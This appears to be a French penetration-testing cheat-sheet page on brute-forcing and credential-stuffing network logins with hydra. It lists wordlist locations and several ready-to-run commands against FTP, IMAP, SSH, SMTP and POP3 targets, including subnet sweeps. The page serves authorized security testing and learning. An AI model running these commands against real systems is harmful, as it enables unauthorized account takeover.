 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Sans connaitre un identifiant ou mot de passe

Selon le service à attaquer, on pourra utiliser hydra avec le paramètre `-C` et fournir un dictionnaire (wordlist) contenant des couples `utilisateur:mot_de_passe` séparés par `:`
Plusieures wordlist de ce type sont disponibles dans `/usr/share/seclists/Passwords/Default-Credentials/` (notamment `ftp-betterdefaultpasslist.txt`)


```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh

# bruteforce mail service password for known user
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP smtp -t 64  
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP pop3 -t 64 
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP imap -t 64 

```
Plus d'exemple d'utilisation de l'outil : [[Hydra]]
